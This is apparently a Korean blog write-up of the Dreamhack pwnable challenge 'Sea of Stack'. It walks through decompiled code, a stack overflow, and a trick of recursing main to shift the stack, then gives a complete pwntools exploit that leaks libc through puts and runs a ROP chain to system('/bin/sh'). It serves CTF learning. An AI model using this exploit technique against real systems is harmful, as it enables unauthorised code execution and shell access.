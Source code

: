 ```yaml
---
published: true
image: /img
layout: post
title: "[Dreamhack] PWN Sea of Stack"
excerpt: "드림핵 포너블 Sea of Stack 문제풀이"
tags: [Dreamhack, pwnable, wargame, writeup]
math: true
date: 2024-08-17 14:00
---
```


드림핵 포너블 문제 Sea of Stack 문제 풀이다.

해당 문제를 보면 우분투 22.04기반 컨테이너에 동작하고 libc 파일이 주어진다.
prob 바이너리가 주어지며 이를 실행시키면 다음과 같은 동작을 가진다.

```c++
root@b87ade2e40ca:/home# ./prob
If you really want to give me a present, bring me that kind detective's heart.
> aaaaaaaaaaaaaaa
Sea of Stack
1. safe func
2. unsafe func
> 1
aaaaaaaaaaaaaaaaaaaaaaaa
```

기드라 디컴파일러를 통해 해당 바이너리를 열어보자. 메인함수의 코드는 매우 간단하다. 코드를 살펴보면 다음과 같다.
```c++
undefined8 main(void)

{
  int iVar1;
  undefined8 local_38;
  undefined8 *local_30;
  char local_28 [28];
  int local_c;
  
  proc_init();
  printf("If you really want to give me a present, bring me that kind detective\'s heart.\n> ") ;
  read_input(local_28,0x10);
  iVar1 = strcmp(local_28,"Decision2Solve");
  if ((iVar1 == 0) && (gotPresent == 0)) {
    read_input(&local_30,8);
    read_input(&local_38,6);
    *local_30 = local_38;
    gotPresent = 1;
  }
  print_menu();
  local_c = read_number();
  if (local_c == 1) {
    (*(code *)safe)();
  }
  else if (local_c == 2) {
    (*(code *)unsafe)();
  }
  return 0;
}
```

또한 safe함수와 unsafe함수는 다음과 같다.
```c++
void safe_func(void)

{
  undefined local_38 [48];
  
  read_input(local_38,0x29);
  memset(local_38,0,0x28);
  return;
}

void unsafe_func(void)

{
  undefined local_28 [32];
  
  read_input(local_28,0x10000);
  return;
}
```

우선 unsafe 함수에서 오버플로우가 가능하다. libc가 주어진 것으로 보아, libc 주소를 leak해 ROP 체이닝을 해야할 것으로 예상된다.

간단하게 unsafe 함수에서 오버플로우를 시도해본다. 0x10000만큼의 임의 값을 입력하면 오류가 발생하며 gdb를 통해 확인하면 스택의 크기를 벗어난 지점에 값을 쓰려고 하여 권한 문제가 발생한다.

여기서 재밌는 트릭을 사용한다. main함수의 if 구문을 보면 0x10만큼 입력받은 문자열이 Decision2Solve와 동일한지 검사하여 동일하면 입력한 주소 부분에 원하는 값을 6만큼 쓸 수 있다.

취약점 트리거를 해야하는 unsafe함수를 이용해야 한다. 따라서 safe 함수 위치를 main함수 주소로 덮어 main을 여러번 call 한다. 

필자는 1000번의 call을 진행했으며 첫번째 실행의 rsp, rbp와 1000번을 실행한 rsp, rbp를 비교해보자.

```c++
//첫번째 main함수 지점 레지스터
*RAX  0x401446 (main) ◂— endbr64 
 RBX  0
 RCX  0x7d89cf314992 (read+18) ◂— cmp rax, -0x1000 /* 'H=' */
*RDX  0x404010 (safe) —▸ 0x4013f0 (safe_func) ◂— endbr64 
 RDI  0
 RSI  0x7fffe0176627 ◂— 0x60000000100
 R8   0x51
 R9   0x7d89cf521040 (_dl_fini) ◂— endbr64 
 R10  0x402048 ◂— "If you really want to give me a present, bring me that kind detective's heart.\n> "
 R11  0x246
 R12  0x7fffe0176788 —▸ 0x7fffe0176fd3 ◂— 0x4c00626f72702f2e /* './prob' */
 R13  0x401446 (main) ◂— endbr64 
 R14  0x403d98 (__do_global_dtors_aux_fini_array_entry) —▸ 0x401200 (__do_global_dtors_aux) ◂— endbr64 
 R15  0x7d89cf555040 (_rtld_global) —▸ 0x7d89cf5562e0 ◂— 0
*RBP  0x7fffe0176670 ◂— 1
*RSP  0x7fffe0176640 —▸ 0x401446 (main) ◂— endbr64 
*RIP  0x4014ca (main+132) ◂— mov qword ptr [rdx], rax


//1000번 main 호출 이후 main함수 지점 레지스터
*RAX  0
 RBX  0
*RCX  0x7fffe0166bd1 ◂— 0x4600007fffe01767
*RDX  0x401426 (unsafe_func) ◂— endbr64 
*RDI  0xa
*RSI  2
*R8   0x1999999999999999
*R9   0
*R10  0x7d89cf3beac0 ◂— 0x100000000
*R11  0x7d89cf3bf3c0 ◂— 0x2000200020002
 R12  0x7fffe0176788 —▸ 0x7fffe0176fd3 ◂— 0x4c00626f72702f2e /* './prob' */
 R13  0x401446 (main) ◂— endbr64 
 R14  0x403d98 (__do_global_dtors_aux_fini_array_entry) —▸ 0x401200 (__do_global_dtors_aux) ◂— endbr64 
 R15  0x7d89cf555040 (_rtld_global) —▸ 0x7d89cf5562e0 ◂— 0
*RBP  0x7fffe0166bf0 —▸ 0x7fffe0166c30 —▸ 0x7fffe0166c70 —▸ 0x7fffe0166cb0 —▸ 0x7fffe0166cf0 ◂— ...
*RSP  0x7fffe0166bf0 —▸ 0x7fffe0166c30 —▸ 0x7fffe0166c70 —▸ 0x7fffe0166cb0 —▸ 0x7fffe0166cf0 ◂— ...
*RIP  0x40142e (unsafe_func+8) ◂— sub rsp, 0x20
```

위와 같이 rbp, rsp 값이 현저히 낮아진 것을 볼 수 있다. 스택 위치가 낮아짐에 따라서 0x10000값을 입력하여 오버플로우 공격이 가능하다.

카나리도 안걸려 있기 때문에 이후는 일반적인 ROP와 동일하다. 함수의 인자를 주기 위해 pop rdi; ret;가젯을 찾아준다. 이를 통해 puts 함수의 plt와 got를 이용해서 libc 주소를 leak 한다. 이후 다시 unsafe 함수를 호출하여 가젯을 이용해 /bin/sh를 인자로 하여 system함수를 실행한다.

아래는 익스플로잇 코드이다.


```python
from pwn import *
context.update(arch='amd64', os='linux')
#p = remote("host3.dreamhack.games", 19571)
p = process("./prob", env={'LD_PRELOAD': './libc.so.6'})
# p = process("./prob")
libc = ELF("./libc.so.6")


p.sendafter(b"> ", b"Decision2Solve\x00\x00")

safe_addr = 0x404010
main_addr = 0x401446

p.send(p64(safe_addr))
p.send(b"\x46\x14\x40\x00\x00\x00")
p.sendafter(b"> ", b"1")

print(p.recv(79))

i = 0
while True:
    if (i == 1000):
        break
    p.sendafter(b"> ", b"a"*0x10)
    p.sendafter(b"> ", b"1")
    # sleep(0.01)
    i += 1
    print(i)

p.sendafter(b"> ", b"/bin/cat /flag\x00\x00")
print("1")

puts_plt = 0x04010c0
puts_got = 0x403fa8
prdi_prbp_ret = 0x40129b
unsafe_func = 0x0401426

p.sendafter(b"> ", b"2")

pl = b"a"*32
pl += b"b"*8
pl += p64(0x40129e)
pl += p64(prdi_prbp_ret)
pl += p64(puts_got)
pl += b"c"*8
pl += p64(puts_plt)
pl += p64(unsafe_func)
pl += b"c"*(0x10000-len(pl))

p.send(pl)

libc_leak = u64(p.recv(6)[:]+b"\x00\x00")
print(f"[+] leak addr : {hex(libc_leak)}")
offset = 0x58ED0
libc_base = libc_leak - offset
print(f"[+] libc base addr : {hex(libc_base)}")
system = libc_base+0x28D64
print(f"[+] system addr : {hex(system)}")
binsh = libc_base+0x1B0698
print(f"[+] /bin/sh addr : {hex(binsh)}")

exit = 0x04012f6

pl = p64(binsh)*4
pl += p64(binsh)
pl += p64(0x40129e)
pl += p64(0x40129e)
pl += p64(0x40129e)
pl += p64(0x40129e)
pl += p64(prdi_prbp_ret)
pl += p64(binsh)
pl += p64(binsh)
pl += p64(system)
pl += p64(exit)
pl += b"\x00"*(0x10000-len(pl))


p.send(pl)
p.interactive()
```